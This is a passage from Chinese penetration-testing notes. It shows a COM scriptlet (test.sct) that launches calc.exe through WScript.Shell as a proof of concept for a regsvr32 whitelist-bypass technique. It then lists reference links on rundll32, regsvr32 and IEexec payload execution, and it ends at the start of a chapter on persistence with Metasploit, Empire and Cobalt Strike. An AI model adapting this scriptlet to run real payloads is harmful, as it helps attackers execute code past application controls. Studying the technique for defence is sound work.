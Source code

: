 test.sct

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-15.png)

参考文章：

https://xz.aliyun.com/t/1654/

https://evi1cg.me/archives/remote_exec.html

收集整理的15种文件下载的方式

https://mp.weixin.qq.com/s/DfdUL5jFzJ8PvylxS6mN-A

Windows执行命令与下载文件总结

https://www.cnblogs.com/17bdw/p/8550189.html

在windows上执行恶意代码 by rundll32 & regsvr32

https://www.jianshu.com/p/e8f65deac245

IEexec.exe执行payload

https://www.codercto.com/a/104908.html

rundll32.exe 多种方法绕过白名单

https://www.cnblogs.com/backlion/p/10488747.html

## 第6篇：三大渗透测试框架权限维持技术

### 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

### 0x01 MSF权限维持
